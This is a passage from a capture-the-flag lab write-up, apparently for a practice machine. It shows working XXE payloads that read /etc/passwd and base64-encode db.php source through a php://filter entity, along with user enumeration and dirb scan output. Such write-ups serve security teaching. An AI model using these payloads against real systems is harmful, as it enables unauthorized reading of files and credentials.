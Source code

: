 Now we will attempt to trigger the xxe attack. For example, let's try to get **/etc/passwd**.

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ENTITY hack SYSTEM "file:///etc/passwd">
]>
<bugreport>
    <title>&hack;</title>
    <cwe>Test2</cwe>
    <cvss>10</cvss>
    <reward>1337</reward>
</bugreport>
```

This should do the trick. Contents of /etc/passwd should be stored inside `hack` entity which is put inside `<title>` tag. Let's forward that request.

![](https://i.imgur.com/Nwwu2sL.png)

Here we go, we managed to get /etc/passwd! 

First column in /etc/passwd represents the **username**, and the last one represents the absolute path to **user's shell**. Most of users listed in /etc/passwd file can't actually login, and their shell is set to `/usr/sbin/nologin`. To enumerate actual users who can login, we can search for those users who have their shell set to `/bin/bash`.

```
$ cat passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
development:x:1000:1000:Development:/home/development:/bin/bash
```

Besides the root user, there is one user and he goes by the username **development**. Let's just keep that in mind for now.

Since we are able to fetch arbitrary files through xxe, we can take a look into some of the source code!

Remember dirb?

Well, it DID find something!

```
(...)
---- Scanning URL: http://10.10.11.100/ ----
+ http://10.10.11.100/db.php (CODE:200|SIZE:0)
+ http://10.10.11.100/index.php (CODE:200|SIZE:25169)
+ http://10.10.11.100/portal.php (CODE:200|SIZE:125)
```

That db.php seems **very** interesting. We will try to read it.

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ENTITY hack SYSTEM "php://filter/convert.base64-encode/resource=db.php">
]>
<bugreport>
    <title>&hack;</title>
    <cwe>Test2</cwe>
    <cvss>10</cvss>
    <reward>1337</reward>
</bugreport>
```

